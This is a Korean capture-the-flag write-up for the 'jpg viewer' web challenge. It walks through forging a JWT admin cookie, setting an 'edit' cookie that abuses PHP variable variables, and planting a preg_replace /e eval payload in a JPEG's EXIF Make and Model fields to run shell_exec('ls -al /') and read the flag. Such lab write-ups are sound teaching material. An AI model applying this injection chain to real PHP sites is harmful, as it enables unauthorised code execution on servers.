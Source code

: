 # jpg viewer
**Web, 200pts**
> 플래그는 /에 있습니다

![Main](src/jpg_viewer/main.png)

파일 업로드가 가능해서 쉘을 업로드하면 될 것 같았다. JPG 파일만 업로드 할 수 있어서 파일 확장자를 우회하여 업로드 해봤는데 PHP 파일은 실행시킬 수 없었다. 소스 코드를 보니 주석 처리된 링크가 있었다.

[코드](src/jpg_viewer/index.php)를 보면서 처음 눈에 들어왔던 것은 `exif_read_data` 함수였다. 이 함수는 이미지 파일로부터 EXIF 헤더의 정보를 읽어 배열로 반환해준다. 코드를 보니 EXIF 정보가 존재하면 출력해주는 부분이 있어서 `exiftool`로 `Model`에 쉘 코드를 입력하여 이미지 파일을 업로드해봤다. 하지만 텍스트로 처리되기 때문에 함수 실행이 불가능했다.

![Model](src/jpg_viewer/model.png)

나는 코드를 보면서 `Make` 변수는 사용되지 않고 `preg_replace` 함수가 있는 이유가 이해되지 않았다. 그래서 EXIF와 관련하여 검색을 하다가 EXIF 헤더에 쉘 코드를 삽입할 수 있다는 것을 알았다.

```php
$Make = "/.*/e";
$Model = "eval(base64_decode('ZWNobyBzaGVsbF9leGVjKCdscyAtYWwgLycpOw=='))";

preg_replace($Make, $Model, '');
```

`Make`와 `Model` 변수를 위와 같이 정의하고 코드를 실행시키면 다음과 같이 변환되어 `preg_replace` 함수가 실행된다.

```php
preg_replace("/.*/e", "eval(base64_decode('ZWNobyBzaGVsbF9leGVjKCdscyAtYWwgLycpOw=='))", '');

preg_replace("/.*/e", "eval(echo shell_exec('ls -al /'))", '');
```

`preg_replace` 함수가 실행되면서 첫 번째 인자의 정규 표현식 `e` 옵션은 두 번째 인자에 입력된 값으로 변환되면서 PHP 코드로 취급되도록 하기 때문에 `eval` 함수가 실행된다. 그런데 `preg_replace` 함수를 실행하기 위해서는 `body['admin']` 값이 `true`가 되어야 했다.

```php
require_once __DIR__ . '/jwt.php';
if(!isset($_COOKIE['PHPSESSJWT'])){
    $token = $jwt->hashing(array(
      'admin' => false,
      'iat' => time(),
    ));
    setcookie('PHPSESSJWT', $token, time() + 86400 * 30);
}

...

require_once __DIR__ . '/jwt.php';
$token = $_COOKIE['PHPSESSJWT'];
if ($token) {
    $body = $jwt->dehashing($token);
}
```

`PHPSESSJWT` 쿠키가 생성될 때 `admin`이 `false`로 설정되기 때문에 JWT 형식에 맞춰 값을 수정해줘야 했다. 기존에 저장된 값을 base64로 디코딩하면 다음과 같다.

```
{"alg":"sha256","typ":"JWT"}.{"admin":false,"iat":1582429111}.ccd6a59972b14df9f97c3b5b36bb9495d5511aa98e2031b8d4f64cbad1799265
```

위의 형식에 맞추어 JWT 값을 생성해야 하므로 검색을 통해 [코드](src/jpg_viewer/jwt.php)를 작성하였다. 그렇게 생성된 값으로 `PHPSESSJWT`를 변경해보니 오류가 발생하지 않았다.

```php
if($body['admin']==true){
    $edit = explode('.',$_COOKIE['edit']);
    preg_replace($$edit[0],$$edit[1],$$edit[2]);
}
```

그리고 이 부분을 보면 `edit` 쿠키 값을 `.`을 기준으로 `edit` 변수에 배열로 저장하고 값들이 가변 변수로 `preg_replace` 함수에서 사용된다. 따라서 `Make.Model.` 이라고 `edit` 쿠키를 생성해줘야 다음과 같이 함수가 실행된다.

```php
preg_replace($Make, $Model, '');
```

마지막으로 위에서 설명한 것처럼 JPG 파일의 EXIF 헤더를 수정하여 파일을 업로드하면 `eval` 함수로 인해 값이 실행되는 것을 확인할 수 있다.

![ls](src/jpg_viewer/cmd.png)

그렇게 플래그의 위치를 확인하고 내용을 출력하여 플래그를 획득할 수 있었다.

![Flag](src/jpg_viewer/flag.png)

**TRUST{th1s_1s_1mp0ss1bl3_1n_re4l_w0rld!!!!~}**

---

**References**
- https://blog.naver.com/koromoon/220571547938
- https://blog.ch4n3.me/488